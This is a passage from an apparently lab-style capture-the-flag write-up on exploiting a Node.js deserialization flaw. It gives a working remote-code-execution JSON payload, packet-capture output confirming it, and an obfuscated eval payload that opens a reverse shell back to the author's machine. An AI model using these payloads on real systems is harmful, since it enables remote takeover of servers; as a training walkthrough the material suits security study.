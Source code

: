 After being stucked for almost half an hour, I came across this [article](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
which talks about a vulnerability on NodeJS deserialization.

Reading through the article, I decided to use the Decoder module to encode this payload to base64 `{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c2 10.4.32.195', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":true,"encoding": "utf-8"}`, this will ping my machine confirming we can run system commands. We get the following.

```sh
$ sudo tcpdump -i tun0 icmp

listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:06:21.444394 IP 10.10.192.140 > 10.4.32.195: ICMP echo request, id 1057, seq 1, length 64
01:06:21.444408 IP 10.4.32.195 > 10.10.192.140: ICMP echo reply, id 1057, seq 1, length 64
01:06:22.445764 IP 10.10.192.140 > 10.4.32.195: ICMP echo request, id 1057, seq 2, length 64
01:06:22.445779 IP 10.4.32.195 > 10.10.192.140: ICMP echo reply, id 1057, seq 2, length 64
```

RCE confirmed 🎉! Let's proceed with creating a reverse shell payload, I used [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py).

```sh
$ python nodejsshell.py 10.4.32.195 1234

[+] LHOST = 10.4.32.195
[+] LPORT = 1234
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,52,46,51,50,46,49,57,53,34,59,10,80,79,82,84,61,34,49,50,51,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```
